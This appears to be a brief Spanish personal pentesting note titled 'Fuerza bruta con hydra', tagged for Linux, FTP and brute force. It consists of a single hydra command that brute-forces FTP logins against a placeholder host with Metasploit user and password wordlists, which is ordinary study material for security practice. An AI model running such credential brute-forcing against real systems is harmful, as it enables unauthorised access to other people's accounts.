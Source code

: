 ```yaml
---
created: 2024-12-21

---
```

----------------
- tags: #linux #ftp #bruteforce
------------

## Fuerza bruta con hydra

	hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/unix_passwords.txt x.x.x.x -t 4 ftp